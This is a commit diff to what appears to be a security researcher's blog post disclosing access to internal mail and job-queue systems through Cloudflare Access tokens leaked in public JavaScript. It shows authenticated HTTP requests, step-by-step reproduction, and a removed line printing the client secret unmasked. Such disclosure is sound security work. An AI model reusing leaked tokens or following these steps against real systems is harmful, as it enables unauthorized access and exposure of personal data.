

Before and after one commit to Ibrahim-sec/Ibrahim-sec.github.io, a Markdown page: content/posts/Unauthorized Access to Internal Systems via Leaked Cloudflare Access Tokens.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Updating

````diff
--- a/content/posts/Unauthorized Access to Internal Systems via Leaked Cloudflare Access Tokens.md
+++ b/content/posts/Unauthorized Access to Internal Systems via Leaked Cloudflare Access Tokens.md
@@ -43,12 +43,13 @@ I immediately tested the credentials against known internal subdomains. The atta
 
 The first target was the internal mail service, which was protected by Cloudflare Access.
 
-**Simulated Request:**
+**Simulated Request (using leaked tokens):**
 ```http
 GET / HTTP/2
 Host: mail.vulnerable-group.com
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
 Cf-Access-Client-Id: ec7586fe0fd8d8f06301379d8706dcef.access
-Cf-Access-Client-Secret: d459ead056bedf891cb413f81bb74d40e4c5de1e7fa9ffe3fcb3df431b0f1259
+Cf-Access-Client-Secret: d459ead056bedf891cb413f81bb74d40e*******7fa9ffe3fcb3df431b0f1259
 ```
 
 **Result:** The request was successfully authenticated, granting me unauthorized access to the internal mail service.
@@ -57,12 +58,13 @@ Cf-Access-Client-Secret: d459ead056bedf891cb413f81bb74d40e4c5de1e7fa9ffe3fcb3df4
 
 The most critical finding was an internal job queue monitoring system. Accessing this system revealed highly sensitive data related to partner applications.
 
-**Simulated Request:**
+**Simulated Request (using leaked tokens):**
 ```http
 GET /jobs/completed HTTP/2
 Host: queue-nasa.vulnerable-group.com
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
 Cf-Access-Client-Id: ec7586fe0fd8d8f06301379d8706dcef.access
-Cf-Access-Client-Secret: d459ead056bedf891cb413f81bb74d40e4c5de1e7fa9ffe3fcb3df431b0f1259
+Cf-Access-Client-Secret: d459ead056bedf891cb413f81bb74d40e*******7fa9ffe3fcb3df431b0f1259
 ```
 
 **Result:** The system returned a list of completed jobs, which included the full request data from partner applications. This exposed a massive amount of PII, including:
@@ -85,7 +87,7 @@ This vulnerability is rated Critical (CVSS 9.1) because it completely bypasses t
 1.  **Locate Credentials**: Navigate to the publicly accessible JavaScript file: `https://cdn-assets-vulnerable-network.com/dev/.../partners-utils.js`.
 2.  **Extract Tokens**: Search for `"ACCESS_SECRET"` and extract the `Cf-Access-Client-Id` and `Cf-Access-Client-Secret` values.
 3.  **Bypass Access**: Use a tool like Burp Repeater to send a request to a protected internal domain (e.g., `mail.vulnerable-group.com`) and include the extracted tokens as `Cf-Access-Client-Id` and `Cf-Access-Client-Secret` headers.
-4.  **Verify PII Leak**: Access the internal job queue endpoint (e.g., `queue-nasa.vulnerable-group.com/jobs/completed`) to confirm the exposure of sensitive PII.
+4.  **Verify PII Leak**: Access the internal job queue endpoint (e.g., `queue-nasa.vulnerable-group.com/jobs/`) to confirm the exposure of sensitive PII.
 
 ## The Fix
 
````
